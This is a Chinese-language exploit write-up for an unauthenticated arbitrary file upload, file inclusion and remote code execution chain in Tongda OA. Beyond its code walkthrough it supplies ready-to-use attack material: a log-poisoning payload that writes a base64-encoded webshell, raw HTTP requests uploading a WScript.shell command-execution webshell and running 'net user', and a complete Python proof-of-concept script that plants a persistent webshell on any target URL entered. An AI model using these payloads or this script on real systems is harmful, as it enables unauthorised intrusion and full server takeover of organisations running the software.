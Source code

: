 通达oa 任意文件上传+rce+文件包含
================================

一、漏洞简介
------------

有些版本gateway.php路径不同

例如2013：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/ispirit/interface/gateway.php

例如2017：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/mac/gateway.php

    C:\MYOA>dir /s /b gateway.php
    C:\MYOA\webroot\mac\gateway.php

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

    http://www.0-sec.org/api/ddsuite/error.php

    POST:message=<?php file_put_contents("2.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4="));?>52011 

    然后包含

    http://www.0-sec.org/mac/gateway.php
    POST:json={"url":"..\/..\/logs\/oa\/2003\/dd_error.log"}

    在http://192.168.124.138/mac/2.php就是shell密码1

二、漏洞影响
------------

V11版2017版2016版2015版2013增强版2013版

三、复现过程
------------

我们根据官网发布的补丁，更新的是ispirit/im/upload.php这个文件，我们跟进这个文件

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId24.png)

当传入P参数时，就可以绕过登录认证，直接获取到session。

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId25.png)

跟进函数流程，逻辑判断是否传入DEST\_UID并且不为0，否则直接退出。

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId26.png)

传入一个DEST\_UID后，访问，提示无文件上传

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId27.png)

1\<=count(\$\_FILES)判断是否有文件上传，后面的逻辑，如果传入文件，直接进入未授权任意文件上传

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId28.png)

可以使用python3的requests库进行文件上传操作，跟进代码，后面判断的是UPLOAD\_MODE上传模式的值，如果传入UPLOAD\_MODE，当取值为1，2，3时，将回显。

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId29.png)

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId30.png)

进入上传逻辑，调用upload()函数，upload()会对上传的文件进行后缀名检测，这里使用name.php.即可绕过文件后缀名限制，调用upload函数后，会返回一个\$ATTACHMENTS数组，这也是后面我们传入上传模式UPLOAD\_MODE值时会根据该值的取值返回\$ATTACHMENTS\[ID\]和\$ATTACHMENTS\[NAME\]

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId31.png)

跟进upload()函数，\$ATTACHMENTS\[ID\]由add\_attach()函数返回在add\_attach()可以看到传入的文件存储路径为

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId32.png)

\$MODULE的值在upload.php文件中指定为im

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId33.png)

存储路径就保存在在upload.php文件中指定的attch/im/\$YM/文件夹下面，文件名就是\$ATTACH\_ID.\$ATTACH\_FILEadd\_attach()函数最终返回的前台的能够回显的\$ATTACHMENTS\[ID\]里面就包含上传的文件名和路径。

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId34.png)

此时，我们就可以构造payloads进行任意文件上传

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId35.png)

但是，开发者指定的保存路径不在wwwroot目录下面，我们只能通过文件包含漏洞进行包含触发漏洞。文件包含漏洞出现在/ispirit/interface/gateway.php，首先接从客户端接收一个\$json的参数，然后将\$json转换为数组后再转换成变量，当存在\$json数据中存在一个key为url的且不为空的值时，并且url传入的数据中有general/或者ispirit/或者module/时，执行include\_once包含该url。

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId36.png)

此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![](./resource/通达oa任意文件上传+rce+文件包含/media/rId37.png)

### 请求包

    POST /ispirit/im/upload.php HTTP/1.1
    Host: 10.10.20.116:88
    Content-Length: 658
    Cache-Control: no-cache
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
    Cookie: PHPSESSID=123
    Connection: close

    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="UPLOAD_MODE"

    2
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="P"

    123
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="DEST_UID"

    1
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
    Content-Type: image/jpeg

    <?php
    $command=$_POST['cmd'];
    $wsh = new COM('WScript.shell');
    $exec = $wsh->exec("cmd /c ".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ?>
    ------WebKitFormBoundarypyfBh1YB4pV8McGB--
    POST /mac/gateway.php HTTP/1.1
    Host: 10.10.20.116:88
    Connection: keep-alive
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    Content-Length: 71
    Content-Type: application/x-www-form-urlencoded

    json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user

### poc （上传+文件包含+rce）

    import os
    import requests

    # 定义webshell，因为是包含，所以用写入马比较方便
    # 这个马自带bypass disable_function 功能
    shell = '''<?php
    $fp = fopen('readme.php', 'w+');
    $a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
    fwrite($fp, urldecode($a));
    fclose($fp);
    ?>
    '''

    # 输入目标
    url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
    # 定义上传目录和包含目录
    upload_url = url+"/ispirit/im/upload.php"
    include_url = url+"/ispirit/interface/gateway.php"
    # 定义shell目录，如果要修改名字，需要把shell里面的一起改了
    shell_url = url+"/ispirit/interface/readme.php"
    files = {'ATTACHMENT': shell}
    # 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session
    upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
    # 上传
    upload_res = requests.post(upload_url, upload_data, files=files)
    # 此时会返回上传文件的路径
    path = upload_res.text
    # 解析返回值获取上传地址
    path = path[path.find('@')+1:path.rfind('|')
                ].replace("_", "\/").replace("|", ".")
    # 由于上传文件会自动改为jpg，所以要用gateway.php包含
    include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path+"\"}"}
    # 包含+自动写入shell
    include_res = requests.post(include_url, data=include_data)
    # 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限
    print('shell is here:'+shell_url+'?a=command')
